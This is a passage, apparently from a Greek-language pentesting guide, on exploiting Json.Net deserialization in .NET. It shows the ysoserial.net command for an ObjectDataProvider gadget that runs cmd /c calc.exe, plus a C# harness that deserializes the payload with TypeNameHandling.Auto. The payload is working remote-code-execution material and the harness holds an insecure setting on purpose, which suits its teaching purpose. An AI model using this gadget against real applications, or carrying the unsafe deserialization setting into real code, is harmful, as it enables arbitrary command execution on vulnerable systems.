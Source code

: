 Χρησιμοποιώντας το [ysoserial.net](https://github.com/pwntester/ysoserial.net) δημιούργησα την εκμετάλλευση:
```java
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "calc.exe"
{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
Σε αυτόν τον κώδικα μπορείτε να **δοκιμάσετε την εκμετάλλευση**, απλώς εκτελέστε τον και θα δείτε ότι εκτελείται μια αριθμομηχανή:
```java
using System;
using System.Text;
using Newtonsoft.Json;

namespace DeserializationTests
{
class Program
{
static void Main(string[] args)
{
//Declare exploit
string userdata = @"{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}";
//Exploit to base64
string userdata_b64 = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(userdata));

//Get data from base64
byte[] userdata_nob64 = Convert.FromBase64String(userdata_b64);
//Deserialize data
string userdata_decoded = Encoding.UTF8.GetString(userdata_nob64);
object obj = JsonConvert.DeserializeObject<object>(userdata_decoded, new JsonSerializerSettings
{
TypeNameHandling = TypeNameHandling.Auto
});
}
}
}
```
{% hint style="success" %}